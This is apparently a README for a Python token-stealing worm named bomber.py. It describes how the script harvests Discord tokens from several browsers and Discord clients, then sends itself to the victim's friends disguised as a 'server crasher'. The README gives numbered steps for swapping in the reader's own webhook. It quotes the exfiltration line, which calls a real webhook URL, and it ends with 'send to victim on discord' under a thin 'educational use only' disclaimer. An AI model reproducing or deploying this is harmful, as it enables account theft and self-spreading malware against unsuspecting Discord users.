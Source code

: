 To run this you need to have python installed on your computer.

To download it go to: https://www.python.org/downloads/ and get the latest stable version.

DO NOT RUN THIS ON YOUR COMPUTER if you want to see what it does i recomend you run it in a vm and not a computer that you have logged your main discord account in previously.

This python script when you run it will token log the person and then send the file (bomber.py) to everyone on there friends list saying its a discord server crasher.

It token logs from

Chrome

Discord

Discord PTB

Discord Canary

Opera

Brave

Yandex

If you want to change were it sends the token to.

1. create a discord server

2. add a webhook

3. copy webhook url

4. open the bommer.py in IDLE or another python editor 

5. scroll down to the last line before the blank (big gap in code) near the bottom
 were it says 
try:
        urlopen(Request("https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ", data=dumps(webhook).encode(), headers=getheaders()))
6. change the "https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ" to your webhook url

7. save the file

8. send to victim on discord

**disclaimer this is for educational use only and i am not responsible for your actions or uses of this code**
